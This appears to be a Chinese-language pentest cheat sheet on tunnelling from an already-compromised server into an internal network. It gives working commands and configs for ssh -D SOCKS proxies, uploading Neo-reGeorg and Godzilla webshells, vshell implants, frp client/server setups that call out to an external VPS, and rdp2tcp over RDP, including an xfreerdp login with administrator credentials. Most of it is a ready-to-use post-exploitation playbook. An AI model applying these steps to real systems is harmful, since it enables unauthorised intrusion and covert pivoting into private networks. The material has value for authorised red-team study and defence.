

隧道搭建建立在已经拿下服务器的前提下

## 有ssh

最简单的方法，ssh -D在本地建立socks5代理

## 哥斯拉等webshell管理工具

传马，用哥斯拉连接，目前哥斯拉只支持http代理，好像有一点bug

## neoreg

https://github.com/L-codes/Neo-reGeorg
传neoreg生成的马，然后执行neoreg.py建立socks5代理

```sh
python neoreg.py generate -k 'mekrina'
```

将生成的tunnel放到远程的web目录下，本地连接

```sh
python neoreg.py -u http://192.168.50.2:8001/tunnel.php -k 'mekrina'
```

然后本地的 1080端口就开启了一个socks5代理，通过这个代理的流量会经过webshell转发给内网。内网再转发

## vshell

前提是能上传二进制、能命令执行、能出网（反向）或可以另开端口访问（不在NAT后，正向）

传vshell生成的程序，正向或反向连接，上线后建立隧道

## frp

前提是能上传二进制、能命令执行、能出网


### frps

vps上跑frps，配置如下，监听7000，等待注册客户端连接

```toml
bindPort = 7000
auth.token = "Admin123*"
```

### frpc

内网跑frpc, 连接frps，注册服务

```toml
serverAddr = "178.128.91.191"  # vps
serverPort = 7000
auth.token = "Admin123*"

[[proxies]]
name = "proxy-ssh"
type = "tcp"
localIP = "127.0.0.1"
localPort = 2333
remotePort = 6000

[[proxies]]
name = "internal_network_proxy"
type = "tcp"
remotePort = 10808
[proxies.plugin]
type = "socks5"
```

如上配置，frpc会请求frps监听6000、10808两个端口，当收到请求时，以相应proxy-name发给frpc。frpc收到请求后会根据proxy-name进行转发。

## 利用RDP

当目标不出网，且入站连接只允许RDP时，可以通过RDP端口复用来进行隧道搭建

使用[rdp2tcp](https://github.com/V-E-O/rdp2tcp.git)

### 编译

make生成如下两个文件

1. client/rdp2tcp
2. server/rdp2tcp.exe

### xfreerdp连接

在kali执行

```bash
xfreerdp /v:10.201.202.91:23178 /u:administrator /p:Simplexue123 /cert:ignore /sec:rdp /rdp2tcp:/root/pentest/window
s/rdp2tcp/client/rdp2tcp
```

这里会用到client/rdp2tcp

然后把server/rdp2tcp.exe传上去

### 添加socks隧道

运行tools/rdp2tcp.py


```bash
python tools/rdp2tcp.py add forward 127.0.0.1 8888 192.168.1.10 80 # 本地监听8888，转发到内网的80端口

python rdp2tcp.py add socks5 127.0.0.1 2266
```
